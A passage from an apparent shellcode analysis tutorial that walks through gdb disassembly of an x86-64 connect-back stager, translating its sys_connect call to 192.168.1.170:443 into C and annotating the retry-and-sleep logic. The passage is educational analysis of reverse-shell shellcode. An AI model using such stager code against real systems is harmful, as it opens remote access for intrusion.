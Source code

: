 ```nasm
pop    rax

; invoke sys_connect
syscall
```

They can be converted to the following C code:

```cpp
struct sockaddr_in RSI;

myaddr.sin_family = AF_INET;
myaddr.sin_port = htons(443);
inet_aton("192.168.1.170", &amp;myaddr.sin_addr.s_addr);

connect(RDI, (struct sockaddr*)RSI, 16);
```

All it does is create a **sockaddr** structure that stores the IP address and the TCP port, along with address family (`AF_INET`, i.e. IPv4), and then pass this structure to the function `connect`.

The latter connects the file descriptor obtained from the `socket` syscall to the remote socket `192.168.1.170:443`.

After the call to `sys_connect`, the following instructions are run:

```bash
(gdb) disassemble $rip,+27
# Dump of assembler code from 0x4000c2 to 0x4000da:
# => 0x00000000004000c2:  pop    rcx
#    0x00000000004000c3:  test   rax,rax
#    0x00000000004000c6:  jns    0x4000ed
#    0x00000000004000c8:  dec    r9
#    0x00000000004000cb:  je     0x4000e5
#    0x00000000004000cd:  push   rdi
#    0x00000000004000ce:  push   0x23
#    0x00000000004000d0:  pop    rax
#    0x00000000004000d1:  push   0x0
#    0x00000000004000d3:  push   0x5
#    0x00000000004000d5:  mov    rdi,rsp
#    0x00000000004000d8:  xor    rsi,rsi
#    0x00000000004000db:  syscall
```

As usual, let's analyze them:

```nasm
; get the bytes of the sockaddr struct and copy them into RCX
pop    rcx

; test the return value of sys_connect
; jump to 0x4000ed if the value isn't negative (failure)
test   rax,rax
jns    0x4000ed

; decrement the value of R9
; if it's equal to 0, then jump to sys_exit(1)
dec    r9
je     0x4000e5

; save the file descriptor of the socket created previously on the stack
push   rdi

; set RAX to 0x23 (sys_nanosleep)
push   0x23
pop    rax

; create a timespec structure (5 seconds and 0 nanoseconds)
```